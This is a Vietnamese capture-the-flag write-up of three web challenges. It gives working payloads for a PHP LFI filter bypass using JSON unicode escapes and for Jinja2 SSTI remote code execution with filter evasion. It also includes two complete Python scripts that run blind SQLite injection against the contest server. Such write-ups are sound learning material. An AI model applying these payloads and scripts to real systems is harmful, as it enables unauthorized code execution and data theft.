 # WannaWinFreshman-Writeup
# Bài 1 Warmup PHP:
![image](https://github.com/anzuukino/WannaWinFreshman-Writeup/assets/86243871/63658021-4722-4417-b2ed-48eb746d03fe)

- Tóm tắt đề thì đại khái là đề bảo chúng ta phải POST data lên dưới dạng json có key là **page** và sau đó chương trình sẽ server sẽ decode ra và đọc file trong server
- Bài này mới vào thì mình nghĩ đến LFI với filter base64 nhưng khổ nổi là nó chặn ngay chữ php, data, file nên mình không thể chuyển qua base64 được
- Sau gần 30 phút - 1 tiếng thì mình tìm được một bài viết dưới đây [LINK](https://trustfoundry.net/2018/12/20/bypassing-wafs-with-json-unicode-escape-sequences/)
- ![image](https://github.com/anzuukino/WannaWinFreshman-Writeup/assets/86243871/c7280b09-24af-47b3-9a0e-e82ed1894471)
- Cơ bản là json_decode nó sẽ decode luôn unicode trong biểu diễn hex thành chữ cái vì vậy mình chỉnh lại cái payload của mình từ 
`php://filter/convert.base64-encode/resource=/flag`
thành
`\u0070hp://filter/convert.base64-encode/resource=/flag`
![image](https://github.com/anzuukino/WannaWinFreshman-Writeup/assets/86243871/463ea634-efa7-4c42-b0d9-92341d335d5b)
- Decode base64 và ra flag
- Flag: **W1{w3lc0m3_w3b_w4rrj0rs}**
- ~~Funfact: Payload mình làm ra bài này là encode gần như tất cả các ký tự thành dạng unicode biểu diễn hex làm mình tốn rất nhiều thời gian <(")~~
# Bài 2 Namename:
![image](https://github.com/anzuukino/WannaWinFreshman-Writeup/assets/86243871/d8bc1de3-0f9a-45ff-9878-141cd0df45ad)
- Bài này cho 1 đường link và không cho thêm gì khác sau khi xem source của web này thì thấy có 1 đường dẫn là `/wannaw1n`
![image](https://github.com/anzuukino/WannaWinFreshman-Writeup/assets/86243871/c1b22bdc-3266-495f-b6e0-a7edcd95eef0)
- Sau khi đi tới đường dẫn /wannaw1n mình nhận ra ngay đây là SSTI jinja2 ( Mình sẽ nói về rõ cách SSTI này lần sau :v)
- Mình ném ngay payload của mình vào thử xem RCE được không
- Payload : `{{().__class__.__base__.__subclasses__()[279]('ls',shell=1,stdout=-1).communicate()}}`
- Và nó bị chặn ![image](https://github.com/anzuukino/WannaWinFreshman-Writeup/assets/86243871/77f0aa01-5dfa-4ad9-9c2b-9e6ba8736812)
- Sau vài thử nghiệm thì có vẽ nó chặn dấu `.` và `[]` nên mình chuyển qua |attr

- Payload mới: `{{()|attr("__class__")|attr("__base__")|attr("__subclasses__")()|attr("__getitem__")(279)('ls',shell=1,stdout=-1)|attr('communicate')()}}`
- Và ok nó hoạt động tốt
![image](https://github.com/anzuukino/WannaWinFreshman-Writeup/assets/86243871/2883ff9a-261d-4332-81c6-937c70020427)
- Bây giờ sửa lại payload từ `ls` sang `cat flag.txt` thôi
- ![image](https://github.com/anzuukino/WannaWinFreshman-Writeup/assets/86243871/28f86e01-25e7-4e51-8e67-9e53225a5f43)
- Và không nó vẫn bị chặn cái gì đấy nên mình sử dụng cách này bypass filter ( chổ này là chặn dấu `.` và chữ `f` thì phải)
- `{{()|attr("__class__")|attr("__base__")|attr("__subclasses__")()|attr("__getitem__")(279)('cat+*',shell=1,stdout=-1)|attr('communicate')()}}`
- Cách này sẽ đọc hết tất cả các file trong thư mục hiện tại và tìm được flag
![image](https://github.com/anzuukino/WannaWinFreshman-Writeup/assets/86243871/2c578c66-f98c-43dd-a306-e629ab3f7137)
- Flag: **W1{U_are_master_in_SSTI}**
- Ngoài lề: ~~ Thật ra thì còn 1 cách bypass tà đạo nữa mà sau này mình sẽ viết 1 bài riêng về cái này mình nghĩ cách này bypass cũng kha khá <(") ~~
# Bài 3 Solite:
- ![image](https://github.com/anzuukino/WannaWinFreshman-Writeup/assets/86243871/5d20fa22-0fc9-4f4c-8039-7de1d61b594f)
- Bài này mình khá tiếc vì mình đọc không kỉ filter nên mình không làm được
- Tóm tắt đề thì bài này chỉ cho chúng ta cái page như này mà làm sao đó mà tìm được flag
- ![image](https://github.com/anzuukino/WannaWinFreshman-Writeup/assets/86243871/7d1fe742-a26a-4705-9888-f2d827d562b5)
- Sau khi nghiên cứu và được nghe 1 số gợi ý thì mình hiểu được đây là Blind SQL Injection
- Nhìn kĩ source thì có 1 lỗ hổng cho chúng ta khai thác là substr không bị filter vì trong filter là substrs thứ mà không hề tồn tại
- ![image](https://github.com/anzuukino/WannaWinFreshman-Writeup/assets/86243871/ae13e11e-52fe-4bb5-8360-c2095b361fc4)
- Đây là query của bài
  ![image](https://github.com/anzuukino/WannaWinFreshman-Writeup/assets/86243871/317e6d80-27b4-41c2-b14b-c4b6e6d84b37)
- Sau một vài thử nghiệm thì mình tìm được cách để in ra tên của bảng
- `Payload: 1' and substr((select group_concat(tbl_name) FROM sqlite_master WHERE type is 'table' and tbl_name NOT like 'sqlite_%'),i,1) is 'a'--`
- Tóm tắt :
- Payload này sau khi gửi lên server thì server sẽ thực hiện 1 query như sau `SELECT * FROM API WHERE id LIKE '%1' and substr((select group_concat(tbl_name) FROM sqlite_master WHERE type is 'table' and tbl_name NOT like 'sqlite_%'),1,1) is 'a'--%'`
- `select group_concat(tbl_name) FROM sqlite_master WHERE type is 'table' and tbl_name NOT like 'sqlite_%'` sẽ trả về tên của tất cả các bảng
- `substr((select group_concat(tbl_name) FROM sqlite_master WHERE type is 'table' and tbl_name NOT like 'sqlite_%'),1,1)` sẽ lấy 1 ký tự a bắt đầu từ vị trí i
` 1' and substr((select group_concat(tbl_name) FROM sqlite_master WHERE type is 'table'and tbl_name NOT like 'sqlite_%'),1,1) is 'a'--` cái này sẽ so sánh ký tự mà substr vừa cắt ra nếu chính xác thì sẽ thực hiện lệnh đằng trước là `SELECT * FROM API WHERE id LIKE '%1'` và trả về cột id=1 nếu sai thì nó không thực hiện và chẳng trả về gì cả
- Đây là script mình tìm tên của bảng
```py
import string,requests
from urllib.parse import quote

all_characters = string.ascii_letters + string.digits + "!#$%&()+,-/:<=>?@[]^_{}"
url = "http://45.122.249.68:20020/search?name[]="
payload="1' and substr((select group_concat(tbl_name) FROM sqlite_master WHERE type is 'table' and tbl_name NOT like 'sqlite_%'),1,1) is 'a'--"
table_name = ""
haha = 0
for i in range(1,10000):
    for ps in all_characters:
        payload ="1' and substr((select group_concat(tbl_name) FROM sqlite_master WHERE type is 'table' and tbl_name NOT like 'sqlite_%%'),%d,1) is '%c'--" %(i,ps)
        payload =  quote(payload)
        urlx = url + payload
        #print(urlx)
        r=requests.get(url=urlx)
        if "id" in r.text:
            table_name += ps
            print("Table names: ",table_name)
            haha +=1
    if haha < i:
        break
print("Success all the names of the tables are:",table_name)
```
- Và tìm ra được tên của các bảng là
![image](https://github.com/anzuukino/WannaWinFreshman-Writeup/assets/86243871/32f3cf53-f620-48af-8da5-d07cfca0a405)

`Tables: API,flag_c1abd148_acae_40be_a953_eae333f90da0`
- Bây giờ dựa vào cái trên lấy ra flag từ bảng `flag_c1abd148_acae_40be_a953_eae333f90da0` thôi
- Script của mình
```py
import string,requests
from urllib.parse import quote

all_characters = string.ascii_letters + string.digits + "!#$%&()+,-/:<=>?@[]^_{}"
url = "http://45.122.249.68:20020/search?name[]="

table_name = "flag_c1abd148_acae_40be_a953_eae333f90da0"
#payload = "1' and substr((select flag from flag_c1abd148_acae_40be_a953_eae333f90da0),1,1) is 'a'--"
haha = 0
flag =""
for i in range(1,10000):
    for ps in all_characters:
        payload ="1' and substr((select flag from %s),%d,1) is '%c'--" %(table_name,i,ps)
        payload =  quote(payload)
        urlx = url + payload
        #print(urlx)
        r=requests.get(url=urlx)
        if "id" in r.text:
            flag += ps
            print("Flag is: ",flag)
            haha +=1
    if haha < i:
        break
print("Here is your flag:",flag)
```
- Flag: **W1{I_th1nk_u_r_so_lite^_^}**
- ~~**Mấy bài còn lại mình chưa biết làm do dark quá**~~









